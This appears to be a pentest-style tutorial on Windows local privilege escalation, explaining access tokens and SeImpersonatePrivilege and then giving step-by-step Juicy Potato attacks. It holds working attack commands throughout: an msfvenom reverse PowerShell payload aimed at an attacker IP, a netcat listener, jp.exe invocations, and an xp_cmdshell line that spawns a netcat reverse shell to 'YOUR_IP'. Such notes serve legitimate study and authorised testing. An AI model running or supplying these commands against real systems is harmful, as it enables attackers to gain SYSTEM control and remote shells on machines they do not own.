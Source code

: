 #### **Tokens in Windows**
Every program (process) running on Windows has a **"token"**. Think of this like an **ID card**. It shows **who is running that program** (e.g., a normal user or the SYSTEM user).
- Some programs can **use someone else’s token** to **"pretend" to be them**. This is called **Impersonation**.
- But to do that, the process needs **special rights**:
    - **SeImpersonatePrivilege** (Impersonate someone else)
    - **SeAssignPrimaryTokenPrivilege** (Start a new process with someone else’s token)

> These are powerful rights usually only given to Admins.
___

# Juicy Potato

###  What is Juicy Potato?
**Juicy Potato** is a Windows local privilege escalation tool that abuses the **SeImpersonatePrivilege** to gain **SYSTEM-level access** from a low-privileged user account.
You already have **a shell** (or Meterpreter session) on the **target machine
#### Required Privilege:
- **SeImpersonatePrivilege** **OR**
- **SeAssignPrimaryTokenPrivilege**
>  **You only need one of them to work** (usually `SeImpersonatePrivilege` is enough)

## Method-1 (using shell)
#### 1️ Check User Privileges
On the target machine, run:
```bash
whoami /priv
```
Look for this line:
```
SeImpersonatePrivilege      Enabled
```
> ✅ If it's enabled, you can continue with the Juicy Potato attack!

#### 2️ Download Juicy Potato
Download the executable from:
👉 https://github.com/ohpe/juicy-potato
Rename it (for simplicity):
```bash
jp.exe
```
Copy it to the **victim machine**.
#### 3️ Create a Malicious Payload
On your **attacker machine** (Kali), generate a reverse shell in `.bat` format:
```bash
msfvenom -p cmd/windows/reverse_powershell LHOST=<Your_IP> LPORT=<Your_Port> -f raw > myshell.bat
```
Replace `<Your_IP>` and `<Your_Port>` with your Kali IP and chosen port.
Upload `myshell.bat` to the **victim machine**.
#### 4️ Start Netcat Listener
On your Kali machine:
```bash
nc -nlvp <Your_Port>
```
#### 5️ Run Juicy Potato Exploit
On the victim machine:
```bash
jp.exe -t * -p myshell.bat -l 4444
```
- `t *` = Try all available COM types
- `p myshell.bat` = The payload you want to run
- `l 4444` = Port used by the fake COM server (can be any unused port)
###  Result
You should now get a **reverse shell as SYSTEM** on your Netcat listener!

## Method-2 (Using mssqlclient.py)

1. check the privileges 
```sql
SQL> xp_cmdshell whoami
```
2. 
```sql
SQL> xp_cmdshell C:\tools\JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\tools\nc.exe YOUR_IP 8443 -e cmd.exe" -t *  
```
Explanation of flags:
- `-l 1337` = Random COM listener port
- `-p` = Program to run (cmd.exe)
- `-a` = Argument for cmd (Netcat reverse shell)
- `-t *` = Use both token impersonation methods (CreateProcessWithTokenW or CreateProcessAsUser)

you will have a reverse shell on your net cat listener 
